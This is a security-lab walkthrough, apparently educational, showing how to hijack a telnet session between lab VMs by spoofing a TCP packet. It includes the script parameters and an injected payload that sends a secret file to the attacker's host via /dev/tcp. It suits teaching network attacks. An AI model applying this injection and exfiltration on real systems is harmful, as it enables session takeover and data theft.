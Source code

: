 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name | Role                 | IP Address |
|---------|----------------------|------------|
| VM1     | victim client        | 10.0.2.4   |
| VM2     | victim telent server | 10.0.2.5   |
| VM3     | attacker             | 10.0.2.6   |

### Steps

1. Let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. The client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. The client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

4. Let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

5. Client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

6. Attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server. Now we need to examine this packet carefully, so as to obtain the ip addresses, the time to live (ttl) attribute, the port numbers, the next sequence number, the acknowledgment number, and the window size.

This image shows the IP header, from which we see the ip addresses, and the time to live (ttl) attribute.
![alt text](lab-tcp-hijack-ip-header.png "Lab tcp hijack latest tcp capture - part 1, ip header")

This image shows the TCP header, from which we see the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-tcp-header.png "Lab tcp hijack latest tcp capture - part 2, tcp header")

7. The above packet provides the information which the attacker needs to know in order to perform the tcp session hijack attack. Now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 59830
destination_port = 23
sequence_num = 3366342961
acknowledgment_num = 4096614496
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *3366342961*, the acknowledgment number is *4096614496*; the source port (in this example) is *59830*, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address.

8. Once the above 9 lines are modified correctly, we are ready to launch the attack, which is just running the python script. Before running the python script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:
![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:
![alt text](lab-tcp-hijack-before-enter.png "Lab tcp hijacking attack before pressing enter")
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after pressing enter")

9. Once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
